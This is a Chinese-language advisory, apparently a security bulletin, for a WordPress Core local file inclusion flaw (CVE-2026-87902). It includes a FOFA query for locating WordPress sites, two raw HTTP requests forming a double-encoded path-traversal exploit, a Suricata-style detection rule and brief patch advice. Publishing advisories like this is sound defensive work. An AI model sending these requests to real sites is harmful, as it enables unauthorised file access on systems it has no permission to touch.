


# wordPress Core存在本地文件包含漏洞(CVE-2026-87902)

wordPress Core存在本地文件包含漏洞(CVE-2026-87902)

# 影响版本

从 **4.7.0** 到 **7.1.1** 的所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   **app=&quot;WordPress&quot;**

**POC/EXP：**

**step1**  **获取page_id**

```
GET /wp-json/wp/v2/pages?per_page=1&_fields=id HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36


```

​​

**step2**  **根据id执行lfi**

```
POST /?page_id=510&&pagename=templates%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fwp-links-opml HTTP/1.1
Host: 127.0.0.1
Content-Length: 0


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"WordPress Core - 本地文件包含漏洞 (CVE-2026-87902, pagename双重编码路径穿越)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"page_id="; nocase; fast_pattern;
        content:"pagename="; nocase; distance:0;
        content:"%252E%252E%252F"; nocase; distance:0;
        content:"wp-links-opml"; nocase; distance:0;
    metadata:
        service http,
        affected_product "WordPress Core",
        vulnerability_type "Local File Inclusion (Path Traversal)",
        severity "high",
        reference "CVE-2026-87902";
    classtype:web-application-attack;
    sid:1000808;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
